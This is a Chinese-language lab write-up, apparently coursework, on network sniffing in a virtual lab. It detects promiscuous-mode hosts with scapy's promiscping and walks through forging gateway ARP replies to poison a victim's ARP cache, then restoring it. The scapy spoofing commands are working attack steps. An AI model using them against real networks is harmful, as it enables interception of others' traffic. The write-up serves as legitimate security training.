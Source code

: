 # 网络监听

## 实验环境

* 攻击者主机：kali
08:00:27:f3:69:a6 / eth0
172.16.111.128
* 受害者主机：kali
08:00:27:22:46:4f / eth0
172.16.111.124
* 网关：Debain
08:00:27:bf:1b:28 / enp0s9
172.16.111.1

## 实验准备

* 在攻击者主机上提前安装好 [scapy](https://scapy.net/) 

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy
```
![](./img/开启scapy.png)


## 实验: 检测局域网中的异常终端

* ```shell
    # 在受害者主机上检查网卡的「混杂模式」是否启用
    ip link show eth0
    # 2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 在攻击者主机上开启 scapy
    sudo scapy

    # 在 scapy 的交互式终端输入以下代码回车执行 受害者主机 ip
    pkt = promiscping("172.16.111.124")

    # 回到受害者主机上开启网卡的『混杂模式』
    # 注意上述输出结果里应该没有出现 PROMISC 字符串
    # 手动开启该网卡的「混杂模式」
    sudo ip link set eth0 promisc on

    # 此时会发现输出结果里多出来了 PROMISC 
    ip link show eth0
    # 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    pkt = promiscping("172.16.111.124")

    # 在受害者主机上
    # 手动关闭该网卡的「混杂模式」
    sudo ip link set eth0 promisc off
    ```
* 结果展示
  * 由结果可知受害者主机未开启混杂模式时，攻击者使用 promiscping 进行发包探测，结果没有得到 arp 响应。当受害者主机开启了混杂模式后，攻击者使用 promiscping 进行发包探测，可以得到 arp 响应。
  * ![](./img/开启和关闭混杂模式.png)
  * ![](./img/开启和关闭混杂pkt.png)
  * ![](./img/arp.png)
## 实验：手工单步“毒化”目标主机的 ARP 缓存

* ```shell
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

    # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```
  * ![](./img/构造arp请求.png)  

* ```shell
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  * ![](./img/发送arp请求.png)

* ```shell
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.124
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.124", hwdst="08:00:27:f3:69:a6")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```
  * ![](./img/sendp.png)

*   ```shell
    # 伪装网关给受害者发送 ARP 响应
    restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:bf:1b:28", pdst="172.16.111.124", hwdst="08:00:27:22:46:4f")
    sendp(restorepkt1, count=100, inter=0.2)
    ```
    * ![](./img/恢复arp.png)

* ```shell
  # 在受害者主机上准备“刷新”网关 ARP 记录
  # 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  # 静候几秒 ARP 缓存刷新成功，退出 ping
  # 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
  * ![](./img/arp恢复正常.png) 

## 遇到的问题

* scapy 模块发送数据包时`Errno1 [operation not permitted]`
  * 提升权限 `sudo scapy` 

## 参考链接

[`kali`的基本工具之一--`wireshark`](https://www.jianshu.com/p/91e0f8bea7f7)

[`Scapy`中的`ARP`](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)